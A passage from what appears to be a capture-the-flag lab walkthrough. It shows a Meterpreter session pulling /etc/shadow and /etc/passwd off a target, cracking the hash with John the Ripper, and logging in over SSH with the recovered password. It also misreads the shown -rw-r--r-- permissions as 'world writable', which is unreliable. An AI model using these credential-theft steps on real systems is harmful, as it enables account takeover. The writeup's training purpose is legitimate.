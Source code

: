 ## 2. Root by Cracking Shadow Hash:
If we also look at the permissions of <i>/etc/shadow</i> we can see that it is world writable!

```r
ls -l /etc/shadow
-rw-r--r-- 1 root shadow 1305 Nov 16  2017 /etc/shadow
```

In the Linux operating system, a shadow password file is a system file in which encryption user passwords are stored. We can crack these passwords using John the Ripper. First we need to download the <i>/etc/shadow</i> and <i>/etc/passwd</i> file. So exit the shell and download these files.

```c
meterpreter > download /etc/shadow .
[*] Downloading: /etc/shadow -> ./shadow
[*] Downloaded 1.27 KiB of 1.27 KiB (100.0%): /etc/shadow -> ./shadow
[*] download   : /etc/shadow -> ./shadow

meterpreter > download /etc/passwd .
[*] Downloading: /etc/passwd -> ./passwd
[*] Downloaded 2.31 KiB of 2.31 KiB (100.0%): /etc/passwd -> ./passwd
[*] download   : /etc/passwd -> ./passwd
```

Then we need to combine both of these files into a form john can understand and then crack the combined file.
```r
m1m3@kali:~$ unshadow passwd shadow > unshadowed
m1m3@kali:~$ john unshadowed

Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 16 needed for performance.
marlinspike      (marlinspike)
1g 0:00:00:00 DONE 1/3 33.33g/s 166.6p/s 166.6c/s 166.6C/s marlinspike..marli
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Hurray! we got the password for user marlinspike. Now we can login to the user by using the password `marlinspike` with ssh.

```r
m1m3@kali:~$ ssh marlinspike@192.168.1.7

marlinspike@192.168.1.7s password:
marlinspike@vtcsec:~$ id
uid=1000(marlinspike) gid=1000(marlinspike) groups=1000(marlinspike),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
marlinspike@vtcsec:~$ 
```
